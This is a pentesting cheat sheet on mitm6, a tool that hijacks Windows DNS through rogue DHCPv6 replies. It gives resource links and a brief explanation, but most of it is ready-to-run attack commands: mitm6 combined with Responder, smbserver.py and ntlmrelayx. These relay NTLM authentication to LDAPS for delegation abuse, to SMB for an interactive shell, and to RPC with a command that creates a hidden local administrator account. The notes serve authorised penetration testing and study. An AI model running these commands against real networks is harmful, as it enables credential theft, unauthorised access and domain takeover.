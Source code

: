 # Mitm6 
## Resources
1. https://cheatsheet.haax.fr/windows-systems/exploitation/ipv6/
2. https://github.com/fox-it/mitm6
3. https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
4. https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
5. https://systemadminspro.com/domain-attacks-getting-an-account/
6. https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
7. https://blog.vonahi.io/taking-over-ipv6-networks/
8. https://intrinium.com/mitm6-pen-testing/

mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server

When using mitm6, it issues a DHCPv6 lease to clients that last for a period of 300 seconds (or 5 minutes) Due to this, it's possible that several DNS queries will actually fail, resulting in clients not being able to access services that rely on DNS names. You can, however, change this in the source code.

## Gonna create a fake DNS server for targets
```
sudo mitm6 -d lab.local
```

# Using with SMB server 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
smbserver.py SHARE_NAME path/to/share
```
# Using with Responder 
## First shell
```
sudo mitm6 -i eth0
```
## Second shell
```
responder -I eth0 -wFv
```
# Using with ntlmrelayx 
## First attacking shell
```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```
## Second attacking shell
```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```
1. wh == server hosting WPAD (attacking IP)
2. t == target for relay
3.  i == open interactive shell

```
ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
```
## Or
$ ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user xuser xpass /add && net localgroup Administrators xuser /add"
